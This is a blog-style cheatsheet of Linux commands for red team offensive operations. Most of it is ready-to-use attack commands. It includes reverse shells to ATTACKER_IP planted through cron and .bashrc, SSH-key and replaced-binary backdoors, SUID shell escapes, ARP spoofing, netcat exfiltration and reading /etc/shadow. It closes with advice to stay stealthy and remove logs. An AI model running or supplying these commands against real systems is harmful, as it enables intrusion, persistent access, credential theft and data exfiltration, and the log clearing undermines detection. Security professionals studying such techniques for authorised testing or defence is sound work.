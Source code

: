 ```yaml
---
title: "The Ultimate Linux Hacker's Cheatsheet for Red Team Offensive Operations"
description: "A comprehensive Linux command and tool cheatsheet tailored for red team offensive operations."
date: "2024-11-29"
tags: ["Linux", "Red Team", "Offensive Security", "Hacking", "Cheatsheet"]
author: "Toity the Elite Blog Writer"
---
```


# The Ultimate Linux Hacker's Cheatsheet for Red Team Offensive Operations

This cheatsheet provides essential Linux commands, tools, and techniques for red team operations, focusing on reconnaissance, exploitation, persistence, and privilege escalation.

---

## System Reconnaissance

### Gather Basic System Information
```bash
uname -a                   # Kernel version and architecture
cat /etc/os-release        # OS details
hostnamectl                # Hostname and system information
whoami                     # Current user
id                         # Current user ID and group info
```

### Network Information
```bash
ifconfig                   # Network interfaces
ip addr show               # Detailed IP configuration
ip route show              # Display routing table
netstat -tulpn             # Active network connections
ss -tuln                   # Alternative to netstat for connections
```

### User and Group Enumeration
```bash
cat /etc/passwd            # List all users
cat /etc/group             # List all groups
getent passwd              # Enumerate system accounts
who                        # Logged-in users
last                       # Login history
```

---

## File and Process Discovery

### Search Files and Directories
```bash
find / -type f -name "*.conf" 2>/dev/null   # Search for config files
find / -perm -4000 2>/dev/null             # Find SUID binaries
grep -r "password" /etc/                   # Look for password strings
```

### Process Information
```bash
ps aux                       # List all processes
top                          # Real-time process monitor
lsof                         # Open files and the associated processes
```

---

## Privilege Escalation

### SUID Exploitation
```bash
find / -perm -u=s -type f 2>/dev/null  # Locate SUID binaries
```

#### Example: Exploiting `vim` SUID
```bash
vim -c ':!/bin/bash'       # Spawn shell via SUID vim
```

### Kernel Exploits
```bash
# Identify kernel version
uname -r

# Search Exploit DB for matching vulnerabilities
```

### Check Writable Paths
```bash
find / -writable -type d 2>/dev/null    # World-writable directories
```

---

## Persistence Techniques

### Create a Reverse Shell with Cron
```bash
echo "* * * * * /bin/bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1" | crontab -
```

### Add SSH Key for Backdoor Access
```bash
echo "YOUR_SSH_PUBLIC_KEY" >> ~/.ssh/authorized_keys
```

### Replace System Binary with a Backdoor
```bash
mv /usr/bin/victim_binary /usr/bin/victim_binary.bak
cp /tmp/backdoor /usr/bin/victim_binary
chmod +x /usr/bin/victim_binary
```

---

## Network Exploitation

### Scan for Open Ports
```bash
nmap -sS -Pn TARGET_IP      # Stealth TCP scan
```

### Perform ARP Spoofing
```bash
arpspoof -i INTERFACE -t VICTIM_IP GATEWAY_IP
```

### Create a Simple Reverse Shell
```bash
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```

---

## Data Exfiltration

### Transfer Files via Netcat
#### On Attacker:
```bash
nc -lvp PORT > file.txt
```

#### On Target:
```bash
nc ATTACKER_IP PORT < file.txt
```

### Encode Data for Concealment
```bash
tar -czf - secret_data | base64 > secret_data.b64
```

---

## Post-Exploitation

### Dump Password Hashes
```bash
cat /etc/shadow              # Requires root access
```

### Escalate via Credential Reuse
```bash
ssh USER@VICTIM_IP
```

### Persist via Shell Backdoor
```bash
echo "/bin/bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1" >> ~/.bashrc
```

---

## Useful Tools

| Tool          | Purpose                                  | Command Example                       |
|---------------|------------------------------------------|---------------------------------------|
| `nmap`        | Network scanning and enumeration        | `nmap -sC -sV TARGET`                |
| `netcat`      | Network communication                   | `nc -lvp 4444`                       |
| `metasploit`  | Exploitation framework                  | `msfconsole`                         |
| `hydra`       | Brute-forcing credentials               | `hydra -l admin -P pass.txt HOST ssh`|
| `john`        | Password cracking                       | `john --wordlist=wordlist.txt hashes`|

---

## Tips and Best Practices
- **Stay Stealthy:** Avoid detection by limiting noisy commands.
- **Document Everything:** Keep a log of commands, results, and extracted data.
- **Clean Up:** Remove logs, tools, and temporary files after operations.